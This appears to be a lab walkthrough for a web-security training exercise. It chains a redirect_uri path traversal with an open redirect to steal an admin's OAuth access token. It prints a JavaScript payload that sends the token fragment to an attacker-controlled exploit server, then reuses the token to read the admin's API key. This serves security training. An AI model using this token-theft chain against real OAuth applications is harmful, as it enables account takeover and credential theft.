

# Lab: Stealing OAuth access tokens via an open redirect

> Lab Objective: identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

- Login using provided credentials `wiener:peter`, then inspect the login process.

- The Login Process:

  - You access `/my-account`, where you're redirected to `/social-login`, indicating that you'll login with social media.
    
    
  - The Authorization Request is sent.
    
  - You're prompted to enter your credentials (`username:password`).
    
  - You're prompted for your consent upon the requested data.
    
  - You're redirected to the callback URL stated in the authorization request.
    
    
  - A POST request sent to `/authenticate`, which will be redirected to `/` indicating your successful login.
    

- There's a request, after the call back request, retrieving the user data.
  

- Send the authorization request to the repeater, you'll notice that application checks the URL in the `redirect_uri` parameter:

  - In case of not matching:
    
  - In case of matching:
    

- But it allows for path traversal (allowing `../../`).
  

- Logout then login again, but intercept the authorization request and adding `../../post?postId=9` to the `redirect_uri` parameter.
  

- Forward the remaining requests, and you'll notice that you're redirected to `post?postId=9` endpoint instead of the URL stated in the `redirect_uri` parameter.
  

- View any product page, you'll notice that there's a next post option, redirecting you to the next post.
  
  

- Intercept the request made by next post option, and replace the path with Burp Collaborator URL.
  

- And you'll notice that a request is made to Burp Collaborator.
  
  

- Indicating that this endpoint is vulnerable to open redirect.

- Therefore, in order to chain the two issues:
- Intercept the authorization request and add `../post/next?path=https://exploit-0a09002003ea613c81a047ef01cc00fd.exploit-server.net/?key=accessed` the `redirect_uri` parameter.
  

- View the logs of your exploit server, and notice that the `?key=accessed` is present, therefore I was able to chain the two issues successfully.
  

- Therefore, in order to exploit both issues, use the following payload in your exploit server:

```html
<script>
  if (!document.location.hash) {
    window.location =
      "https://oauth-0ae400f603ee617381b946b702ff0031.oauth-server.net/auth?client_id=b63coyob7kjzobzp67qt5&redirect_uri=https://0a1f00c3037e61af817b482d007a00e4.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a09002003ea613c81a047ef01cc00fd.exploit-server.net/exploit?key=accessed&response_type=token&nonce=-1921948377&scope=openid%20profile%20email";
  } else {
    window.location = "/?key=hacked&" + document.location.hash.substr(1);
  }
</script>
```

- Deliver the exploit to victim, and you'll notice that the attack has succeeded.
  

- Copy the access token, then view the `/me` endpoint where you retrieve the user data based on the token in the authorization header.

- Replace the existing token (which is mine), with the hijacked token, and send the request:
  

- Submit the API Key.
  

- And the lab is solved successfully.
  

---
